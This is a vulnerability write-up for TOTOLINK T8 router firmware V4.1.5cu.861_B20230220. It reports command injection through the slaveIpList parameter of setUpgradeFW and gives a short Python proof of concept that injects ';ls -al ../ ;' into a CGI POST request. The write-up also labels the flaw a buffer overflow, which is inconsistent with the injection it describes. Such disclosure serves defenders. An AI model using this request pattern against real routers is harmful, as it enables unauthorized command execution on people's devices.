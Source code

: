 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setUpgradeFW` function. The `v6` variable receives the `slaveIpList` parameter from a POST request. However, since the user can control the input of `slaveIpList`, the `sprintf` and `system` can cause a command injection vulnerability.

![image-20240902134019599](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902134019599.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setUpgradeFW",
"FileName":"1",
"slaveIpList":";ls -al ../ ;",
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
